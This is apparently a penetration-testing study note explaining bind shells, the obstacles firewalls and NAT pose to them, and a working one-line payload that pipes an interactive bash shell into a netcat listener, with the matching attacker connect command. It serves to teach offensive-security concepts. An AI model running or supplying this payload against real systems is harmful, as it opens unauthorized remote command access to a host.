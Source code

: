 # Bind Shell

With a bind shell, the `target system has a listener` started and awaits a connection from a pentester's system (attack box).

![image](https://user-images.githubusercontent.com/87195021/163404394-5e338c84-fcea-41db-b8ea-3c58083deeb8.png)

## Bind Challenges

- There would have to be a listener already started on the target.
- If there is no listener started, we would need to find a way to make this happen.
- Admins typically configure strict incoming firewall rules and NAT (with PAT implementation) on the edge of the network(public-facing), so we would need to be on the internal network already.
- Operating system firewalls (on Windows & Linux) will likely block most incoming connections that aren't associated with trusted network-based applications.

## Useful Bind Shell
    
`rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l [IP] [PORT] > /tmp/f`

- The commands above are considered our payload, and we delivered this payload manually. We will notice that the commands and code in our payloads will differ depending on the host operating system we are delivering it to.

## Attacker Commands

    nc -nv [IP] [PORT]